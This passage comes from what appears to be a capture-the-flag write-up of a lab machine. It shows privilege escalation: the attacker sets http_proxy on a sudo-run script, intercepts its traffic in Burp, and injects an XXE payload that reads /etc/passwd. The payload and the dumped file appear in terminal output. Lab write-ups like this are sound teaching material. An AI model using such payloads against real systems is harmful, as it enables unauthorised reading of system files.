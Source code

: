 And the flag:

```

0xdf-5.1# cat /root/root.txt
c9b19375************************

```

### Method #2 via XXE

#### Configure Proxy

The intended path for this box is to use the `http_proxy` variable. This is an option for `curl` that is detailed on the `curl` [man` page](https://curl.se/docs/manpage.html):

![image-20240127180745026](/img/image-20240127180745026.png)

I’ll modify my Burp Proxy options to listen on all interfaces, rather than just localhost:

![image-20240125154213403](/img/image-20240125154213403.png)

Now on running `sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh`, the request and response show up in my Burp Proxy history:

![image-20240125154252502](/img/image-20240125154252502.png)

This allows me to modify the request and the response.

#### XXE POC

I’ll enabling response interception in Burp, and when I run the command with `http_proxy` set to my Burp instance, it’ll hang on that intercepted request, which I’ll let go through. Then it hangs on the response:

![image-20240125154455751](/img/image-20240125154455751.png)

I’ll grab a basic XXE payload (for example from [here](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file)) and update the response:

![image-20240125154846431](/img/image-20240125154846431.png)

On clicking “Forward”, the file shows up in the terminal:

```

jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh 
<?xml version="1.0"?>
<!DOCTYPE replace [
<!ENTITY ent SYSTEM "/etc/passwd">
]>
<file>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
```